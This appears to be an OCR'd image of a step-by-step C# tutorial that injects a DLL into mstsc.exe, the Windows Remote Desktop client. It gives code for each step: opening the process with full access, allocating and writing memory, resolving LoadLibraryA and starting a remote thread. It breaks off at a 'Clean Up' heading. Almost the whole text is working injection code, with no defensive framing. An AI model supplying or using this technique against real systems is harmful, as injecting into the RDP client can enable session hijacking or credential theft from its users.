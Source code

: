 1. **Find the Target Process (`mstsc.exe`):**

   First, find the Process ID (PID) of `mstsc.exe`. You can use tools like Task Manager, Process Explorer, or do it programmatically:

   ```csharp
   Process[] processes = Process.GetProcessesByName("mstsc");
   int pid = processes[0].Id;  // Assuming there's only one instance
   ```

2. **Open the Target Process:**

   Open a handle to the `mstsc.exe` process:

   ```csharp
   IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
   ```

3. **Allocate Memory in the Target Process:**

   Allocate memory in the target process for the DLL path:

   ```csharp
   IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, dllPath.Length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   ```

4. **Write DLL Path to the Allocated Memory:**

   Write the DLL path to the allocated memory:

   ```csharp
   bool result = WriteProcessMemory(hProcess, allocMemAddress, Encoding.Default.GetBytes(dllPath), dllPath.Length, out _);
   ```

5. **Get Handle for `LoadLibraryA`:**

   Get a handle to `LoadLibraryA` in `kernel32.dll`:

   ```csharp
   IntPtr loadLibAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
   ```

6. **Create a Remote Thread:**

   Create a remote thread in the target process that calls `LoadLibraryA` with the DLL path as an argument:

   ```csharp
   IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibAddress, allocMemAddress, 0, IntPtr.Zero);
   ```

7. **Wait for the Thread to Complete:**

   Wait for the remote thread to complete its execution:

   ```csharp
   WaitForSingleObject(hThread, INFINITE);
   ```

8. **Clean Up:**
